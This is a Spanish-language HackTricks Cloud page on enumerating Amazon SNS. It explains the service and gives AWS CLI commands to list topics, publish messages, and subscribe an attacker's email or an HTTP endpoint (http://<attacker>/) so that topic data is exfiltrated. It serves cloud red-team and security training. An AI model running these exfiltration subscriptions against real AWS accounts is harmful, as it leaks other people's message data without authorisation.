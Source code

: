 # AWS - SNS Enum

{% hint style="success" %}
Aprende y practica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) se describe como un **servicio de mensajería totalmente gestionado**. Soporta tanto **comunicación de aplicación a aplicación** (A2A) como **comunicación de aplicación a persona** (A2P).

Las características clave para la comunicación A2A incluyen **mecanismos de publicación/suscripción (pub/sub)**. Estos mecanismos introducen **temas**, cruciales para habilitar una **mensajería de alta capacidad, basada en push, de muchos a muchos**. Esta característica es altamente ventajosa en escenarios que involucran sistemas distribuidos, microservicios y arquitecturas sin servidor impulsadas por eventos. Al aprovechar estos temas, los sistemas publicadores pueden distribuir mensajes de manera eficiente a una **amplia gama de sistemas suscriptores**, facilitando un patrón de mensajería de difusión.

### **Diferencia con SQS**

**SQS** es un servicio **basado en colas** que permite la comunicación punto a punto, asegurando que los mensajes sean procesados por un **único consumidor**. Ofrece **entrega al menos una vez**, soporta colas estándar y FIFO, y permite la retención de mensajes para reintentos y procesamiento retrasado.\
Por otro lado, **SNS** es un servicio **basado en publicación/suscripción**, que permite la comunicación **de uno a muchos** al transmitir mensajes a **múltiples suscriptores** simultáneamente. Soporta **varios puntos de suscripción como email, SMS, funciones Lambda y HTTP/HTTPS**, y proporciona mecanismos de filtrado para la entrega de mensajes dirigida.\
Mientras que ambos servicios permiten desacoplar componentes en sistemas distribuidos, SQS se enfoca en la comunicación en cola, y SNS enfatiza los patrones de comunicación impulsados por eventos y de difusión.

### **Enumeración**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Note que si el **tema es de tipo FIFO**, solo se pueden usar suscriptores que utilicen el protocolo **SQS** (HTTP o HTTPS no se pueden usar).

Además, incluso si el `--topic-arn` contiene la región, asegúrese de especificar la región correcta en **`--region`** o recibirá un error que parece indicar que no tiene acceso, pero el problema es la región.
{% endhint %}

#### Acceso No Autenticado

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Escalada de Privilegios

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post Explotación

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Persistencia

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Referencias

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Aprende y practica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
